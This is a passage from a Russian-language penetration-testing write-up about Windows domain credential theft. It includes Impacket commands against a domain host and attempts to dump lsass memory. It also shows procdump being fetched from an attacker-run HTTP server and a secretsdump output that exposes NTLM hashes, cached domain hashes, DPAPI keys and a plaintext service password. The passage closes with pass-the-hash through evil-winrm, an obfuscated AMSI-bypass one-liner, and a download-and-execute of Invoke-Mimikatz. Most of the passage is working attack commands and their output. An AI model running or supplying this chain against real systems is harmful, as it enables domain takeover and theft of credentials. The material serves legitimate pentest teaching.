python3 -m http.server 17890
```

У нас есть High Mandatory Level, SeDebugPrivilege, защиты lsass.exe не включены (RunAsPPL, LsaCfgFlags), но пытаясь сделать дамп памяти lsass.exe получаем 'Access is denied':
```
# wmiexec.py -k -no-pass win2.org.local -shell-type powershell
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami /all

USER INFORMATION
----------------

User Name     SID
============= ============================================
org.local\adm S-1-5-21-1277218239-411149427-4166067275-500


GROUP INFORMATION
-----------------

Group Name                           Type             SID                                          Attributes
==================================== ================ ============================================ ===============================================================
Everyone                             Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators               Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
ORG\Domain Admins                    Group            S-1-5-21-1277218239-411149427-4166067275-512 Mandatory group, Enabled by default, Enabled group
ORG\Group Policy Creator Owners      Group            S-1-5-21-1277218239-411149427-4166067275-520 Mandatory group, Enabled by default, Enabled group
ORG\Schema Admins                    Group            S-1-5-21-1277218239-411149427-4166067275-518 Mandatory group, Enabled by default, Enabled group
ORG\Enterprise Admins                Group            S-1-5-21-1277218239-411149427-4166067275-519 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

PS C:\> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL


ERROR: The system was unable to find the specified registry key or value.

PS C:\> reg query HKLM\System\CurrentControlSet\Control\LSA /v LsaCfgFlags


ERROR: The system was unable to find the specified registry key or value.

PS C:\>
PS C:\> cd temp
PS C:\temp> Get-Process 'lsass' | fl -property id


Id : 644


PS C:\temp> rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 644 dump1 full
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Program 'rundll32.exe' failed to run: Access is deniedAt line:1 char:40_x000D__x000A_</S><S S="Error">+ ... lyContinue";rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 644 ..._x000D__x000A_</S><S S="Error">+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~._x000D__x000A_</S><S S="Error">At line:1 char:40_x000D__x000A_</S><S S="Error">+ ... lyContinue";rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump 644 ..._x000D__x000A_</S><S S="Error">+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : NativeCommandFailed_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
PS C:\temp> (New-Object System.Net.WebClient).DownloadFile('http://10.128.0.3:17890/procdump64.exe','C:\temp\procdump64.exe')

PS C:\temp> .\procdump64.exe -accepteula -ma lsass.exe l_dump
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Program 'procdump64.exe' failed to run: Access is deniedAt line:1 char:40_x000D__x000A_</S><S S="Error">+ ... ="SilentlyContinue";.\procdump64.exe -accepteula -ma lsass.exe l_dump_x000D__x000A_</S><S S="Error">+                         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~._x000D__x000A_</S><S S="Error">At line:1 char:40_x000D__x000A_</S><S S="Error">+ ... ="SilentlyContinue";.\procdump64.exe -accepteula -ma lsass.exe l_dump_x000D__x000A_</S><S S="Error">+                         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : NativeCommandFailed_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
PS C:\temp> .\procdump64.exe -accepteula -r -ma lsass.exe l_dump
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><S S="Error">Program 'procdump64.exe' failed to run: Access is deniedAt line:1 char:40_x000D__x000A_</S><S S="Error">+ ... ilentlyContinue";.\procdump64.exe -accepteula -r -ma lsass.exe l_dump_x000D__x000A_</S><S S="Error">+                      ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~._x000D__x000A_</S><S S="Error">At line:1 char:40_x000D__x000A_</S><S S="Error">+ ... ilentlyContinue";.\procdump64.exe -accepteula -r -ma lsass.exe l_dump_x000D__x000A_</S><S S="Error">+                      ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~_x000D__x000A_</S><S S="Error">    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException_x000D__x000A_</S><S S="Error">    + FullyQualifiedErrorId : NativeCommandFailed_x000D__x000A_</S><S S="Error"> _x000D__x000A_</S></Objs>
PS C:\temp>
```
Заглянув на win2 через админскую сессию RDP, можно убедиться, что это ограничения от Windows Defender Antivirus:  


Также у нас не работает psexec и smbexec:
```
# psexec.py -k -no-pass win2.org.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on win2.org.local.....
[*] Found writable share ADMIN$
[*] Uploading file JmNALtyX.exe
[*] Opening SVCManager on win2.org.local.....
[*] Creating service CBqB on win2.org.local.....
[*] Starting service CBqB.....
[hang]

# smbexec.py -k -no-pass win2.org.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[-] SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)
```
Можем проверить, что исполнение лочится антивирусом:  


Есть интересный вариант доступа atexec с правами SYSTEM:
```
# atexec.py -k -no-pass win2.org.local 'whoami /all'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[!] This will work ONLY on Windows >= Vista
[*] Creating task \hyKHgSAy
[*] Running task \hyKHgSAy
[*] Deleting task \hyKHgSAy
[*] Attempting to read ADMIN$\Temp\hyKHgSAy.tmp
[*] Attempting to read ADMIN$\Temp\hyKHgSAy.tmp

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                           Attributes
====================================== ================ ============================================================= ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384
Everyone                               Well-known group S-1-1-0                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                      Mandatory group, Enabled by default, Enabled group
NT SERVICE\Schedule                    Well-known group S-1-5-80-4125092361-1567024937-842823819-2091237918-836075745 Enabled by default, Enabled group, Group owner
LOCAL                                  Well-known group S-1-2-0                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                 Alias            S-1-5-32-544                                                  Enabled by default, Enabled group, Group owner
```

И возможность достать секреты из SAM и LSA:
```
# secretsdump.py -k -no-pass win2.org.local
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xd7697d2967d6f8d7fc2cfdfc7c605cf6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:612a84f1c9f21a69ae5f2a044cbd576f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e0fab1dc60c2df9ba9e42d2e7ef2e58b:::
cloudbase-init:1000:aad3b435b51404eeaad3b435b51404ee:b4105c5541562ca6caa1565f624a6907:::
[*] Dumping cached domain logon information (domain/username:hash)
ORG.LOCAL/user:$DCC2$10240#user#fb81a74a4e272863bd262f39be98e29b
ORG.LOCAL/adm:$DCC2$10240#adm#d84d3b18b608ef34ffabbbe7f0e96dd4
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ORG\WIN2$:plain_password_hex:430045005a003f002500690052003b006b002e0020005c006f003b0072002d006c00410026005100440060006c006100480022006c00690055005e0044003e0048004e002500750066006a00630078003f00450036002f003a0043006400780041003e00340065006800280077005d006c0049003c003d0025007a00240049004e007300780038004b0028002e00760035004c0021006b005100580046006d0049002f0071005a002c003d005d0048002a00280070003100780068003e0023006c004a00360054006f0023002e006e00310070003200290021005c00230023002e00710065006c0035002c0075004400
ORG\WIN2$:aad3b435b51404eeaad3b435b51404ee:b05591e32414ec8c1426547b4b95d21d:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x410f4d8a383eaf45f64aa71b05457c5d66424a16
dpapi_userkey:0xe585fae05f1bf8a0da193977c27777553a800767
[*] NL$KM
 0000   0E 0D C3 79 EC 72 36 2C  9E 26 04 46 F8 83 7B AC   ...y.r6,.&.F..{.
 0010   13 25 6D 67 63 92 70 C2  93 29 44 D2 B0 29 EB 99   .%mgc.p..)D..)..
 0020   A4 3D 2E AC 67 60 F5 47  3F 9B E0 BB D8 5C 78 DA   .=..g`.G?....\x.
 0030   A1 F2 16 94 E9 C7 DD 97  8B 69 8D 39 1A 2E 01 20   .........i.9...
NL$KM:0e0dc379ec72362c9e260446f8837bac13256d67639270c2932944d2b029eb99a43d2eac6760f5473f9be0bbd85c78daa1f21694e9c7dd978b698d391a2e0120
[*] _SC_cloudbase-init
cloudbase-init:xKsakd328d2khKq82fEJ
[*] Cleaning up...
```

С NTLM-хешом локального администратора можем зайти в интерактивную PowerShell-сессию через WinRM:
```
# evil-winrm -i 10.128.0.18 -u Administrator -H '612a84f1c9f21a69ae5f2a044cbd576f'

--Evil-WinRM shell v3.4--

--Info: Establishing connection to remote endpoint--

*Evil-WinRM* PS C:\Users\Administrator\Documents> [ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1));
*Evil-WinRM* PS C:\Users\Administrator\Documents> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
```
Тут успешно запускается Mimikatz и мы получаем NTLM-хеш администратора домена (если у него есть активная или незавершенная с помощью корректного logout интерактивная сессия в системе, а мы как раз заходили смотреть на антивирус) (на скриншоте используется альтернативный способ отключения AMSI с помощью одного из методов https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell):  


Если осуществить корректный выход из системы:  
  
То буквально через несколько секунд от хеша администратора останется пустое напоминание:  
